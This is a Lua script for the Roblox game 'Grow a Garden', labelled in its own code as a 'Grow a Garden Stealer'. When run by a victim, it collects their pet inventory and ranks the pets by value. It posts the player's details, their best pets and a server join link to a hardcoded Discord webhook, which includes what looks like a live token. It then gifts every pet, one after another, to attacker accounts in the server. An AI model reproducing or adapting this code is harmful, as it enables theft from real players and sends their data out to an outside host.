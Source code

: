 Username = {"smd4sa1em,SK_KING69"} -- receiver usernames 
Webhook = "https://discord.com/api/webhooks/1365302822689837066/4dkinrM-YXWEA_QWmQ4_wZCuJBmIWTnpdoYTcNGmaUzrYZkuRXRHpV63ahI17LvwFOrW" -- your webhook URL

local RS = game:GetService("ReplicatedStorage")
local Players = game:GetService("Players")
local HttpService = game:GetService("HttpService")
local LocalPlayer = Players.LocalPlayer
local back = LocalPlayer.Backpack

local good_pet = {"Dragonfly", "Mimic Octopus", "Butterfly", "Queen Bee", "Disco Bee", "Raccoon", "Red Fox", "Fennec Fox", "Chicken Zombie", "T-Rex", "Kitsune", "Spinosaurus"}
local pets = {}

-- unequip any held tools
local function unequip()
    local character = LocalPlayer.Character or LocalPlayer.CharacterAdded:Wait()
    for _, item in ipairs(character:GetChildren()) do
        if item:IsA("Tool") then
            item.Parent = back
        end
    end
end

-- calculate value of an item
local function value(a)
    if a:GetAttribute("PET_UUID") and a:GetAttribute("ItemType") == "Pet" then
        local ok, val = pcall(function()
            local pr = require(RS.Data.PetRegistry)
            local data = require(RS.Modules.DataService):GetData().PetsData.PetInventory.Data[a:GetAttribute("PET_UUID")]
            local egg = data.PetData.HatchedFrom
            local levelMult = require(RS.Modules.PetServices.PetUtilities):GetLevelProgress(data.PetData.Level)
            local range = pr.PetEggs[egg].RarityData.Items[data.PetType].GeneratedPetData.WeightRange
            local weightMult = require(RS.Modules.NumberUtil).ReverseLerp(range[1], range[2], data.PetData.BaseWeight)
            return math.floor(pr.PetList[data.PetType].SellPrice * (math.lerp(0.8, 1.2, weightMult) * math.lerp(0.15, 6, levelMult)))
        end)
        return type(val) == "number" and val or 0
    else
        return 0
    end
end

-- gather inventory (pets only)
local function getinv()
    unequip()
    pets = {}
    for _, v in pairs(back:GetChildren()) do
        if v:GetAttribute("PET_UUID") and v:GetAttribute("ItemType") == "Pet" then
            table.insert(pets, {value=value(v), name=v.Name, uid=v:GetAttribute("PET_UUID"), tool=v})
        end
    end
    table.sort(pets, function(a,b)
        local a_good = table.find(good_pet, a.name) and 1 or 0
        local b_good = table.find(good_pet, b.name) and 1 or 0
        if a_good ~= b_good then return a_good > b_good end
        return a.value > b.value
    end)
end

-- detect rare pets
local function hasRarePets()
    for _, p in pairs(pets) do
        if table.find(good_pet, p.name) then
            return true
        end
    end
    return false
end

-- number formatter
local function formatNumber(n)
    local numbers = math.floor(n)
    local suffixes = {"", "k", "m", "b", "t","qd", "sn", "sx", "sp", "oc", "no"}
    local suffixIndex = 1
    while numbers >= 1000 do
        numbers = numbers / 1000
        suffixIndex = suffixIndex + 1
    end
    return string.format("%.2f%s", numbers, suffixes[suffixIndex])
end

-- send webhook (pets only)
local function send(url)
    local petSection = (#pets > 0) and '\n``Top 10 best pets:``\n```'..
        table.concat((function()
            local t = {}
            for i, v in ipairs(pets) do
                if i > 10 then break end
                table.insert(t, v.name .. " value: " .. formatNumber(v.value))
            end
            return t
        end)(), "\n")..'```' or ""

    local body = HttpService:JSONEncode({
        ["username"] = LocalPlayer.Name,
        ["avatar_url"] = "https://raw.githubusercontent.com/D3ATH-hub/main/PS99/pfp.png",
        ["content"] = (hasRarePets() and "@everyone\n" or "") .. 
            'game:GetService("TeleportService"):TeleportToPlaceInstance("'..game.PlaceId..'", "'..game.JobId..'", game.Players.LocalPlayer)',
        ["embeds"] = {{
            ["title"] = "Grow a Garden Stealer",
            ["color"] = 32767,
            ["fields"] = {
                {
                    ["name"] = "`👤 Player Info:`",
                    ["value"] = "```👨 Username: " .. LocalPlayer.Name ..
                        "\n🚹 Display Username: " .. LocalPlayer.DisplayName .. 
                        "\n💻 Executor: " .. (identifyexecutor and identifyexecutor() or "Unknown") ..
                        "\n🕹️ Roblox version: "..version().."\nReceiver: "..table.concat(Username, ", ").."```",
                    ["inline"] = false
                },
                {
                    ["name"] = "**__Inventory__**",
                    ["value"] = '```Total pets: '.. #pets..'```'..petSection,
                    ["inline"] = false
                },
                {
                    ["name"] = "__Join link:__",
                    ["value"] = "[click here to join](https://fern.wtf/joiner?placeId="..game.PlaceId.."&gameInstanceId="..game.JobId..")",
                    ["inline"] = false
                }
            },
            ["footer"] = {
                ["text"] = "best Stealer - "..os.date("%Y-%m-%d %H:%M:%S")
            }
        }}
    })

    pcall(function()
        request({
            Url = url,
            Method = "POST",
            Headers = {["Content-Type"] = "application/json"},
            Body = body
        })
    end)
end

-- gifting function (pets only)
local function giftPet(tool, receiverPlr)
    if not receiverPlr or not tool then return false end
    LocalPlayer.Character:FindFirstChildOfClass("Humanoid"):EquipTool(tool)
    task.wait(0.4)
    RS.GameEvents.PetGiftingService:FireServer("GivePet", receiverPlr)
    task.wait(0.4)
    return true
end

-- gifting loop until no pets left
local function start(receiverName)
    local receiverPlr = Players:FindFirstChild(receiverName)
    if not receiverPlr then return end

    while true do
        getinv()
        if #pets == 0 then break end
        for _, p in ipairs(pets) do
            giftPet(p.tool, receiverPlr)
            task.wait(0.3)
        end
        task.wait(0.5)
    end
end

-- run
getinv()
send(Webhook)
setclipboard("discord.gg/Y2fwV2eF2Z")

-- auto-start if receiver is already here
for _, plr in pairs(Players:GetPlayers()) do
    if table.find(Username, plr.Name) then
        start(plr.Name)
    end
end

-- still listen for new players
Players.PlayerAdded:Connect(function(player)
    if table.find(Username, player.Name) then
        start(player.Name)
    end
end)
